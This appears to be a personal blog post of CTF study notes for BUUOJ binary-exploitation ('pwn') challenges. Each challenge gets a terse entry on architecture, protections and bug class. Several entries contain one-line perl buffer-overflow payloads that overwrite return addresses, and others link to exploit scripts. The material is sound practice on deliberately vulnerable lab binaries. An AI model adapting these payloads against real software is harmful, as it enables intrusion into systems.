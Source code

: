 ```yaml
---
layout: post
title:  "信息安全学习笔记 - BUUOJ Pwn 入门"
date:   2020-07-18 12:15:38 +0800
---
```



# BUUOJ PWN

## Requirements
1. python
   1. ropgadget, capstone, 
   2. pwntools
2. nasm

## Prologue
1. file xxx
   1. arch, stripped?
2. checksec

## Problems

1. test_your_nc 
   1. ida system("/bin/sh");
   2. `perl -e 'print "ls\ncat flag\n"' | test_your_nc`
2. rip
   1. `system("/bin/sh")` found
   2. segfault???
3. warmup_csaw_2016
   1. amd64, C `gets` and `system("cat flag.txt")` found
   2. overwrite return address
   3. `perl -e 'print "A"x72 . "\x0d\x06\x40\x00\x00\x00\x00\x00\n"' | ./warmup_csaw_2016`
4. pwn1_sctf_2016
   1. x86, C `gets` and `'system("cat flag.txt")'` found
   2. overwrite return address
   3. `std::string`: the source replaces any appearance of `I` with `you` in string input
   4. `perl -e 'print "I"x20 . "\xef\xbe\xad\xde\x0d\x8f\x04\x08\n"' | ./pwn1`
5. ciscn_2019_n_1
   1. amd64, C `gets`
   2. overwrite a variable and bypass
   3. floating point number comparison
      1. more info about `xmm0` [SSE registers](https://en.wikibooks.org/wiki/X86_Assembly/SSE#Registers):
         1. [saturation arithmetic](https://en.wikipedia.org/wiki/Saturation_arithmetic) and [clamping](https://en.wikipedia.org/wiki/Clamping_(graphics))
         2. SIMD instructions
   4. `perl -e 'print "A"x(0x30-4) . "\x00\x80\x34\x41\n"' | ./ciscn_2019_n_1`
6. [**post**]({{ site.url }}/2020/07/14/buuoj-pwn-ciscn_2019_c_1.html) ciscn_2019_c_1
7. [**script**]({{ site.url }}/assets/OGeek2019_babyrop.py) [OGeek2019]babyrop
   1. x86, NX enabled and stripped
   2. C `read`
   3. `strncmp(a, b, 0)` always returns 0
8. ciscn_2019_en_2: the same as [ciscn_2019_c_1]({{ site.url }}/2020/07/14/buuoj-pwn-ciscn_2019_c_1.html)
9. [**script**]({{ site.url }}/assets/get_started_3dsctf_2016.py) get_started_3dsctf_2016:
   1. x86 and NX enabled
   2. c `gets`
   3. `get_flag` and **peaceful exit**
10. [**script**]({{ site.url }}/assets/5space_pwn5.py) [第五空间2019 决赛]PWN5:
    1.  x86, NX enabled, canary found and stripped
    2.  [**format string exploit**](https://wooyun.js.org/drops/%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E6%BC%8F%E6%B4%9E%E7%AE%80%E4%BB%8B.html)
11. [**script**]({{ site.url }}/assets/jarvisoj_level0.py) jarvisoj_level0:
    1.  amd64 and NX enabled
    2.  c `read`
    3.  `system` and `"/bin/sh"` found
12. [**script**]({{ site.url }}/assets/r2t3.py) [BJDCTF 2nd]r2t3:
    1.  x86 and NX enabled
    2.  `system` and `"/bin/sh"` found
    3.  truncated string length: `uint8_t length = (uint8_t) strlen(input)`
13. [**script**]({{ site.url }}/assets/ciscn_2019_n_8.py) ciscn_2019_n_8